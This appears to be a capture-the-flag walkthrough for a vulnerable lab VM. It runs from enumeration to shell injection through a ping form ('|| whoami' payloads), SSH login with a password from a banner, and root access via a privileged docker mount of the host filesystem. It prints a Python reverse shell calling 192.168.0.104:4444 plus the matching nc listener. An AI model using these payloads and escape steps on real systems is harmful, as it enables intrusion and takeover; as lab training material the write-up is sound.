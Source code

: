 # Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)
- [Bonus](#bonus)
	- [CLI](#cli)
	- [Intresting Files](#intresting-files)


---

## Enumeration
- VM IP: `sudo netdiscover`
	* `192.168.0.12     08:00:27:89:20:c1      1      60  VMWare`
- VM info: `nmap -A 192.168.0.12`
	* `21/tcp open  ftp` Anonymous log-in is on. --> FTP Banner "ftp 'Security@hackNos'"
	* `22/tcp open  ssh`
	* `80/tcp open  http`
- web server info: `dirb -w http://192.168.0.12` 
	* http://192.168.0.12/index.html
	* http://192.168.0.12/css/style.css
	* http://192.168.0.12/css/2.jpg
- web server 192.168.0.12/5ecure login using:
	* admin:Security@hackNos <-- Banner
- web server info: `dirb -w http://192.168.0.12/5ecure`		
	* http://192.168.0.12/5ecure/index.html
		* form POSTs data to output.php
	* http://192.168.0.12/5ecure/css/style.css
	* http://192.168.0.12/5ecure/css/2.jpg
	* http://192.168.0.12/5ecure/output.php
		* simple ping <ip> function + stdout
---
	
## Penetration
- 192.168.0.12/5ecure/out.php:
	* `exec(ping $ip)`, possible shell injection 
- $ip = || command, '; + command', '&& + command', '& + command' didn't work out, char escape probably 
- Examples:
	* ip=|| ls 
		* system navigation
	* ip=|| whoami 
		* www-data
	* ip=|| vi *file*
		* privilege check
	* ip=|| export	

- [intresting files](#intresting-files):
	* /var/opt/python.py, creates a connection to 192.168.0.104:4444 and runs an interactive shell
	* /etc/passwd, user information
---

## Escelation
- `ssh 192.168.0.12 -l recon`
	* pass: Security@hackNos
- `docker run -it --privileged --name=ctf -v /:/host:rw alpine sh`
- container: `cd /host`
---

## Bonus

### CLI 
_Bonus, not necessary_
- configurate host/attacking machine network settings
	* add a new network connection and manualy set it up:
		- IP: 192.168.0.104
		- Netmask: 255.255.255.0
		- Gateway: 192.168.0.1
		- connect to the network using the new interface
- `nc -lvp 4444` to initiate a listener on 4444
- on 192.168.0.12/5ecure/index.php ping scan, run '|| python /var/opt/python.py' 
- tty: `python -c 'import pty; pty.spawn("/bin/bash")'`
- `getent group`: 
	* `docker:x:119:`, passwd --> `recon:x:1000:119:rahul:/home/recon:/bin/bash`
	* recon user gid = docker 
---

### Intresting files

- /var/opt/python.py:
	```
	import socket
	import subprocess
	import os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.104", 4444))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	p = subprocess.call(["/bin/bash", "-i"])
	```
- /var/etc:
	```
	root:x:0:0:root:/root:/bin/bash
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	recon:x:1000:119:rahul:/home/recon:/bin/bash
	ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
	```
